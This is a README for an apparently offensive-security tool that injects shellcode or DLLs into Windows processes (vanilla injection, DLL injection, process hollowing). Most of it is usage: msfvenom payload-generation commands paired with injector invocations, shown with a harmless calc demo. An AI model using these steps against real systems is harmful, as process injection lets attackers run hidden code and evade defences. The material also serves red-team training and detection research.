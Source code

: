 # ProcessInjection

----

The program is designed to perform process injection.
Currently the tool supports 3 process injection techniques.

	1) Vanila Process Injection
	2) DLL Injection
	3) Process Hollowing

Vanila Process Injection and Process Hollowing
Currently the program accepts shellcode in 3 formats 

	1) base64
	2) hex
	3) C

### Command Line Usage

	Generating shellcode in base64 format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" | base64
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:base64 /t:1

	Generating shellcode in hex format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f hex
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:hex /t:1

	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f c
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\shellcode.txt"" /f:c /t:1

	DLL Injection
	Generating DLL and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f dll > Desktop/calc.dll
	ProcessInjection.exe /pid:123 /path:""C:\Users\User\Desktop\calc.dll"" /t:2
	
	Process Hollowing
	Generating shellcode in c format and injecting it in the target process.
	msfvenom -p windows/x64/exec CMD=calc exitfunc=thread -b ""\x00"" -f c
	ProcessInjection.exe /ppath:""C:\Windows\System32\notepad.exe"" /path:""C:\Users\User\Desktop\shellcode.txt"" /f:c /t:3


### Blog Post

[https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html](https://3xpl01tc0d3r.blogspot.com/2019/08/process-injection-part-i.html)
[https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html](https://3xpl01tc0d3r.blogspot.com/2019/09/process-injection-part-ii.html)


### Blog Post
